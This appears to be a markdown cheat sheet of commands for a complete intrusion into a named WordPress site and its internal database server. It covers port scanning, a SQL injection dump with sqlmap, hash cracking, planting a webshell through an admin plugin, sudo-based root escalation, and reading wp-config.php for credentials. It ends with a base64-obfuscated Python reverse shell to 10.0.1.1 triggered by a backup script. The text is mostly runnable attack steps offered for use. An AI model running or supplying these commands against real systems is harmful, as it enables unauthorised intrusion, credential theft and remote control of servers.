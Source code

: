 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install the `File Manager Advanced` plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`rlwrap nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins) in interactive mode\
`sudo vim -c ':!/bin/bash -i'`\
\
If you don't use interactive mode, upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# Information gathering
Check the wordpress configuration to access the database.\
`cat /var/www/wordpress/wp-config.php`

# SSRF RCE Mariadb
Launch mariadb by using the wordpress configuration.\
`mariadb -u wordpress_user -p --host=10.0.0.6`\

Drop the python3 (base64 encoded) payload on the mariadb server, which is on the LAN:\
`eval $(echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMC4xLjEiLDIyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw== | base64 -d)`

On the nmap report, there's a ssh running on port `22/tcp`. Disable the service ssh on webserver:\
`systemctl stop ssh`\

Install `netcat` then launch a listener on port `22`:\
`apt install netcat-openbsd && nc -lvnp 22`\

Wait 1 to 2 minutes, so that the backup script executes our payload.

https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mysql-mariadb
https://github.com/soutzis/Penetration-Testing-Helper-Scripts